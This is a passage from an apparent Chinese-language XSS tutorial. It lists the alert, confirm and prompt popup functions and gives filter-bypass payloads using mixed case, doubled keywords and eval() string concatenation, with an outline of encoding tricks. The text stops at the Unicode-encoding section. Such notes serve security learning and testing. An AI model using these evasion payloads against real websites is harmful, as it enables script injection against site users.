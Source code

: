## 7、XSS 弹窗函数及常见的 XSS 绕过策略（重点）

### (1) 三种函数

`alert`,提示框

`confirm`,对话框

`prompt`,输入框

> XSS弹窗函数：alert 提示框，confirm 对话框，prompt 输入框

### (2)绕过策略：

> 1. 当关键字被过滤：使用大小写，双写
>
> 2. 也可使用字符串拼接绕过：使用eval()函数将字符串拼起来
> 3. 使用编码绕过：Unicode编码，url编码，Ascii码，hex，base64编码
> 4. 当url地址被过滤：使用url编码；对ip进行编码，十进制，八进制，十六进制；用`//`可以代替`http://`
> 5. 当**html标签被实体化**，使用DOM事件，例如：鼠标移进
> 6. 当关键词被替换为下划线等情况，使用伪协议，例如：a标签使用javascript伪协议

#### 1.当关键字被过滤

##### 大小写绕过

```js
<sCRiPt>alert(1);</sCrIpT>
<ImG sRc=x onerRor=alert(1);>
```

##### 双写绕过

有些waf可能会只替换一次且是替换为空，这种情况下我们可以考虑双写关键字绕过

```js
<scrscriptipt>alert(1);</scrscriptipt>
<imimgg srsrcc=x onerror=alert(1);>
```

#### 2.字符串拼接绕过

##### 利用eval()函数

   与PHP的**eval()函数**相同，JavaScript的eval()函数也**可以计算 JavaScript 字符串**，并把它作为脚本代码来执行。

```js
<img src="x" onerror="a='aler';b='t';c='(1)';eval(a+b+c)">
<img src="x" onerror="a=`aler`;b=`t`;c='(`XSS`);';eval(a+b+c)">
```

// 在js中，我们可以用**反引号代替单双引号**

#### 3.编码绕过

##### Unicode编码绕过
